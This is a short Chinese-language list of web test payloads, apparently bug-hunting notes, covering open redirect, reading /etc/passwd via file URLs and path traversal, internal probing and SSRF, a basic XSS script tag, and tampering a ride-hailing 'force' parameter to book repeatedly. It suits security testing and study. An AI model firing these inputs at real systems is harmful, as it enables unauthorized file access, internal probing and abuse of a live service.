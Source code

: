 URL 跳转

```
url=http://example.com
```

任意文件读取

```
url=file///etc/passwd
filename=../../etc/passwd
```

内网爆破

```
url=http://127.0.0.1
```

ssrf

```
url=http://dnslog.cn
```

xss

```
url=<script>console.log('hacker')</script>
```

重复发包

```
打车时将 &force=0, 修改为 &force=1 可重复发包.

一个打车账号可在同一时间重复多次打车, 上车地点定在同一位置可能会造成交通拥堵.
```

